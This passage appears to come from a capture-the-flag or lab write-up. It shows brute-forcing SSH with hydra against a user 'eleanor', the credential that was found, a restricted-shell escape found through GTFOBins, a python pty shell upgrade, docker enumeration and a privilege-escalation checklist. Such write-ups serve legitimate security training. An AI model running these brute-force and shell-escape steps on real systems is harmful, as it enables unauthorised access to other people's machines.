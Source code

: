 Let’s brute-force ssh with hydra:

```bash
hydra -l eleanor -P password.list $IP ssh
```

That’s it we got a hit! 

![image.png](image%2017.png)

`eleanor:eleanor`

## Credentials

```text
eleanor:eleanor
```

> We are in a restricted shell, we should escape it, listing bin directory we see one unusual binary to see `ed`, it turns out it is a text editor. In [GTFOBins](https://gtfobins.github.io/#) we not only can
leverage sudo | SUID privileges and properties of binaries but also it display possible ways to escape restricted shells, so lets’ check it.
{: .prompt-info }

![image.png](image%2018.png)

First let’s make shell robust:

```bash
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
```

After that fix PATH:

```bash
export PATH=$PATH:/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

![image.png](image%2019.png)

We are a member of quite a lot of groups, but most important for us now is Docker. We were indeed in a docker container let’s list docker containers on a host .

```bash
docker ps
```

![image.png](image%2020.png)

this shows exactly 2 containers that we met before.

## Privilege Escalation

- [ ]  Situational awareness
- [ ]  Exposed Confidential Information
- [ ]  Password Authentication Abuse
- [ ]  Hunting Sensitive Information
- [ ]  Sudo
- [ ]  SUID/SGID
- [ ]  Capabilities
- [ ]  Cron Jobs Abuse
- [ ]  Kernel Exploits
- [ ]  **Check if sudoers file is writable**

